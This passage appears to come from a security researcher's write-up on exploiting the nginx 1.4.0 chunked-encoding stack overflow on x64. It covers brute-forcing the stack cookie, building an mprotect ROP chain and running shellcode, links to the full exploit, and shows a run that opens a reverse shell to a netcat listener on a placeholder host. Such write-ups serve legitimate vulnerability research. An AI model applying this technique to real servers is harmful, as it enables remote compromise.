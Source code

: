 strace output at the other end:

<pre class="brush: plain; title: ; notranslate" title="">strace -p 11337 -s 5000 2&gt;&1 | grep recv
recvfrom(3, "GET / HTTP/1.1rnHost: 1337.vnsecurity.netrnAccept: */*rnTransfer-Encoding: chunkedrnrnfff...snip..fff0f0f0f0f", 1024, 0, NULL, NULL) = 1024
recvfrom(3, "AAA..snip..AACCCCCCCC", 18446744069667229461, 0, NULL, NULL) = 4112
</pre>

### Exploitation on x64:

The problem of stack cookie/carnary can be overcome easily by brute-forcing byte by byte. If we send an extra byte and a worker process crashes, it will return nothing thus we know our cookie value is wrong, we try another value until we receive some output.

Then we need to bypass ASLR and DEP. The exploitation for 32-bit in the metasploit module won&#8217;t work, since it will bruteforce the libc address and it&#8217;s not feasible given the large address space in x64.

We give an exploit that only relies on the binary i.e. we build the ROP gadget from the binary. mprotect address is computed from mmap64 address (in the GOT-table) then use to allocate a writable-executable memory chunked. Then we use some ROP gadgets to copy our shellcode and have it executed by return to it finally.

TL;DR full exploit code could be find <a href="https://github.com/danghvu/nginx-1.4.0/blob/master/exp-nginx.rb" target="_blank">here</a>

<pre class="brush: plain; title: ; notranslate" title="">ruby exp-nginx.rb 1.2.3.4 4321
[+] searching for byte: 1
214
[+] searching for byte: 2
102
[+] searching for byte: 3
232
[+] searching for byte: 4
213
[+] searching for byte: 5
103
[+] searching for byte: 6
151
[+] searching for byte: 7
45
Found cookie: x00xd6x66xe8xd5x67x97x2d 8
PRESS ENTER TO GIVE THE SHIT TO THE HOLE AT w.w.w.w 4000
1120 connections
</pre>

*At w.w.w.w*

<pre class="brush: plain; title: ; notranslate" title="">nc -lvvv 4000
Connection from 1.2.3.4 port 4000 [tcp/*] accepted
uname -a
Linux ip-10-80-253-191 3.2.0-40-virtual #64-Ubuntu SMP Mon Mar 25 21:42:18 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),110(netdev),111(admin)
ps aux | grep nginx
ubuntu    2920  0.1  0.0  13920   668 ?        Ss   15:11   0:01 nginx: master process ./sbin/nginx
ubuntu    5037  0.0  0.0  14316  1024 ?        S    15:20   0:00 nginx: worker process
ubuntu    5039  0.0  0.0  14316  1024 ?        S    15:20   0:00 nginx: worker process
ubuntu    5041  0.0  0.0  14316  1024 ?        S    15:20   0:00 nginx: worker process
</pre>
